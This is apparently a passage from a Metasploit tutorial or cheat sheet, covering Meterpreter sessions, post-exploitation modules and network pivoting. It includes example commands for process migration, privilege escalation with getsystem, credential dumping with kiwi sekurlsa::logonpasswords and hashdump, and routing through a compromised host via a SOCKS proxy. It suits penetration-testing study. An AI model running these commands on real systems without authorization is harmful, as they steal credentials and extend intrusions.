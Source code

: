 ## 6. Meterpreter Basics
- Summary: Interact with sessions, migrate, collect creds, and maintain stability.
- Observed commands: sessions, sessions -i 1, background, sysinfo, getuid, ps, migrate, shell, upload, download
- Concepts: In-memory payload, channels, transport resilience
- Tips: Migrate into a stable process; use background to return to msfconsole
- Example:
```bash
sessions
sessions -i 1
sysinfo
getuid
ps | grep explorer
migrate 1234
shell
whoami
exit
```

## 7. Post-Exploitation Modules
- Summary: Leverage post/* modules for privilege escalation, cred dumping, and enumeration.
- Observed commands: use post/windows/gather/credentials/*, getsystem, hashdump, kiwi
- Concepts: Privilege escalation techniques, credential artifacts
- Tips: Run getsystem carefully; prefer post modules before manual actions
- Example:
```bash
use post/windows/gather/credentials/credential_collector
set SESSION 1
run
load kiwi
kiwi_cmd sekurlsa::logonpasswords
hashdump
```

## 8. Pivoting and Routing
- Summary: Route traffic via compromised hosts and socks proxies.
- Observed commands: route add, route print, use auxiliary/server/socks_proxy, set SRVPORT
- Concepts: Network pivoting, proxychains integration
- Tips: Verify with ping/portscan through routes; limit scope
- Example:
```bash
route add 10.10.20.0 255.255.255.0 1
route print
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
# local /etc/proxychains.conf -> socks5 127.0.0.1 1080
```
